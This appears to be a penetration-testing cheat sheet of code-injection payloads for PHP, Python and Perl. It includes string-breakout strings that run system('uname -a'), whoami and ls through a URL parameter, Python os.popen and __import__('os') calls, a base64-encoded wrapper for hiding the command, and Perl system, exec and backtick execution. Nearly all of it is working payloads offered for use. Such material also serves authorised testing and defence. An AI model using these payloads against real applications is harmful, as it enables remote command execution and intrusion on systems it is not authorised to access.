 For contactination use period (.) for PHP/Pearl and plus (+) for Python.

PHP:
```PHP
".system('uname -a');#

);}system(%27whoami%27);//

'.system(ls).'
# Comes from assertion ex.   assert() 
# May not work on PHP 7 and 8
# ex URL string:   /?name=hacker'.system(ls).'
```

Python:

Test python execution, may have to URL encode the + signes at %2b:
```Python
“+str(1+1)+”
```
```Python
“str(os.popen('whoami').read())”
```

If os library isnt imported, you can run:
```Python
__import__('os').system('id')

__import_('os').popen('uname').read())
```


b64 encode First the decoded string:
```Python
__import__('base64').b64decode('PAYLOAD ENCODED')
```
Followed by the full payload:
```Python
str(os.popen(__import__('base64').b64decode('PAYLOAD ENCODED')).read())

str(__import__('os').popen(__import__('base64').b64decode('PAYLOAD ENCODED')).read())
```


#### PERL

Execution Commands:
```PERL
system('uname')

exec('uname')

(`uname`)
```
